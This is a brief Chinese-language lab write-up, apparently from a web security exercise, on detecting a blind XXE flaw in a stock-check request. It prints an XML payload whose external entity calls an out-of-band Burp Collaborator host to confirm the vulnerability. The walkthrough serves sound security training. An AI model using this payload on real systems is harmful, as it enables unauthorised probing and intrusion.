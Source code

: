 检查库存功能发送的数据包中含有xml数据，猜测存在xxe漏洞



![](images/1FF027976BF1428ABB5B735F377D76E5clipboard.png)

但是响应包中并不回显，请求数据。

使用burp collaborator客户端，接收请求数据，验证xxe

```javascript
<?xml version="1.0" encoding="UTF-8"?>
//burp collaborator客户端地址
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://58bn8ko65cvhivtgqb6wpfjxbohe53.burpcollaborator.net"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

接收到响应

![](images/B0D4AA3FF38349BE91AFDF8392518948clipboard.png)

